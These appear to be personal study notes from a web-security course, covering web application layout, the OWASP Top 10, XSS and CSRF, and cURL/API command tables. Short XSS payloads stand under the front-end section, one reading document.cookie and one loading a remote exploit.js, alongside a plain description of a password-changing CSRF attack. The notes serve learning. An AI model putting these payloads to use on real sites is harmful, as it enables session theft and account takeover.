 
# Web Application Layout

three main categories:
- Web Application Infrastructure: 
	-  `Client-Server`
	-  `One Server`
	-  `Many Servers - One Database`
	-  `Many Servers - Many Databases`
- Web Application Components: 
	1.  `Client`
	2.  `Server`
	    -   Webserver
	    -   Web Application Logic
	    -   Database
	3.  `Services`  (Microservices)
	    -   3rd Party Integrations
	    -   Web Application Integrations
	4.  `Functions`  (Serverless) 
- Web Application Architecture: three layers
	- Presentation Layer: frontend
	- Application Layer: backend
	- Data Layer: database
# [OWASP Top 10](https://owasp.org/www-project-top-ten/) vulnerabilities
1. Broken Access Control
2. Cryptographic Failures 
3. Injection
4. Insecure Design
5. Security Misconfiguration
6. Vulnerable and Outdated Components
7. Identification and Authentication Failures
8. Software and Data Integrity Failures
9. Security Logging and Monitoring Failures
10. Server-Side Request Forgery (SSRF)
# FrontEnd Vulnerabilities
## Cross-Site Scripting (XSS)
- **3 types**: `Reflected XSS`, `Stored XSS`, `DOM XSS`
```javascript
#"><img src=/ onerror=alert(document.cookie)>
```
## Cross-Site Request Forgery (CSRF)
- caused by unfiltered user input
- **common `CSRF` attack:** 
	- gain admin priv
	- craft a `JavaScript` payload that automatically changes the victim's password to the value set by the attacker.
	 
```html
"><script src=//www.example.com/exploit.js></script>
```
## Deobfuscation Websites

- [JS Console](https://jsconsole.com)
- [Prettier](https://prettier.io/playground/)
- [Beautifier](https://beautifier.io/)
- [JSNice](http://www.jsnice.org/)
# BackEnd Vulnerabilities
- Broken Auth/Access Control (Bypass login)
- Malicious File Upload
- Command Injection
- SQL Injection (SQLi)
- CVEs

# cURL
## curl
curl url					
option | desc
|--|--|
-o | save in a file 
-s | for silent mode
-k |skip the certificate check
- -v 												print both the request and response
- -I 												display response header
- -i 												display response header and body
- -A 												to set our User-Agent from header
- -u admin:admin url
- -H 'Authorization: Basic YWRtaW46YWRtaW4='
- -X POST -d 'username=admin&password=admin' 							-X for method and -d for data
- -L 												follow redirect link
- -b 'PHPSESSID=c1nsa6op7vtk7kdis7bcnbadf1'							set cookies
- post ex: curl -X POST -d '{"search":"f"}' -b 'PHPSESSID=9501nu5f74kqgohjh4ogu6debb' -H 'Content-Type: application/json' http://94.237.51.163:42040/search.php

- -s | jq											for good json structer
	
**Command** | **Description**
|--|--|
`curl -h` | cURL help menu
`curl inlanefreight.com` | Basic GET request
`curl -s -O inlanefreight.com/index.html` | Download file
`curl -k https://inlanefreight.com` | Skip HTTPS (SSL) certificate validation
`curl inlanefreight.com -v` | Print full HTTP request/response details
`curl -I https://www.inlanefreight.com` | Send HEAD request (only prints response headers)
`curl -i https://www.inlanefreight.com` | Print response headers and response body 
`curl https://www.inlanefreight.com -A 'Mozilla/5.0'` | Set User-Agent header
`curl -u admin:admin http://<SERVER_IP>:<PORT>/` | Set HTTP basic authorization credentials
`curl http://admin:admin@<SERVER_IP>:<PORT>/` | Pass HTTP basic authorization credentials in the URL
`curl -H 'Authorization: Basic YWRtaW46YWRtaW4=' http://<SERVER_IP>:<PORT>/` | Set request header
`curl 'http://<SERVER_IP>:<PORT>/search.php?search=le'` | Pass GET parameters
`curl -X POST -d 'username=admin&password=admin' http://<SERVER_IP>:<PORT>/` | Send POST request with POST data
`curl -b 'PHPSESSID=c1nsa6op7vtk7kdis7bcnbadf1' http://<SERVER_IP>:<PORT>/` | Set request cookies
`curl -X POST -d '{"search":"london"}' -H 'Content-Type: application/json' http://<SERVER_IP>:<PORT>/search.php` | Send POST request with JSON data

## APIs

**Command** | **Description**
|--|--|
`curl http://<SERVER_IP>:<PORT>/api.php/city/london` | Read entry
`curl -s http://<SERVER_IP>:<PORT>/api.php/city/ | jq` | Read all entries
`curl -X POST http://<SERVER_IP>:<PORT>/api.php/city/ -d '{"city_name":"HTB_City", "country_name":"HTB"}' -H 'Content-Type: application/json'`|Create (add) entry
`curl -X PUT http://<SERVER_IP>:<PORT>/api.php/city/london -d '{"city_name":"New_HTB_City", "country_name":"HTB"}' -H 'Content-Type: application/json'` | Update (modify) entry
`curl -X DELETE http://<SERVER_IP>:<PORT>/api.php/city/New_HTB_City` | Delete entry

<!--stackedit_data:
eyJoaXN0b3J5IjpbLTM3NTcxOTM3OCwtMTc0OTg4ODYxNSwxOT
Y1ODU2ODYyXX0=
-->
